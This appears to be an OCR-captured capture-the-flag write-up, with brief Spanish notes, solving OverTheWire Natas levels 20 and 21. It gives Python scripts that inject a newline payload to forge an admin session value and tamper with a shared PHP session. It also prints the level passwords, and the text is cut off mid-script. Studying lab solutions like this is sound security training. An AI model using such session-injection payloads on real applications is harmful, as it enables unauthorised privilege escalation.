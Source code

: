 # Natas20
~~~
import httplib,sys
from base64 import b64encode
from urllib import urlencode

def check(sessid):
httpClient = None
try:
userAndPass = b64encode(b”natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF”).decode(“ascii”)
body=urlencode({‘name’ : ‘whatevername\nadmin 1’})
cookie = ‘PHPSESSID=’+str(sessid)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’ , ‘Cookie’ : cookie }
httpClient = httplib.HTTPConnection(‘natas20.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘POST’, ‘/index.php?debug=a’, body=body, headers=headers)
response = httpClient.getresponse()
responseData = response.read()
print responseData
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

check(‘whateversessid’)
~~~
Inyección: “whatevername\nadmin 1” 
Ejecutar el programa dos veces: la primera vez, ejecute mywrite para inyectar la sesión; la segunda vez, ejecute myread para establecer admin en 1. IFekPyrQXftziDEsUr3x21sYuahypdgJ

# Natas21
~~~
import httplib,sys
from base64 import b64encode
from urllib import urlencode

sessid=’whateversessid’
httpClient = None
try:
userAndPass = b64encode(b”natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ”).decode(“ascii”)
body=urlencode({‘submit’ : ‘a’, ‘admin’:’1′})
cookie = ‘PHPSESSID=’+str(sessid)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’ , ‘Cookie’ : cookie }
httpClient = httplib.HTTPConnection(‘natas21-experimenter.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘POST’, ‘/index.php?debug=a’, body=body, headers=headers)
response = httpClient.getresponse()
responseData = response.read()
print responseData
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

httpClient = None
try:
userAndPass = b64encode(b”natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ”).decode(“ascii”)
cookie = ‘PHPSESSID=’+str(sessid)
~~~
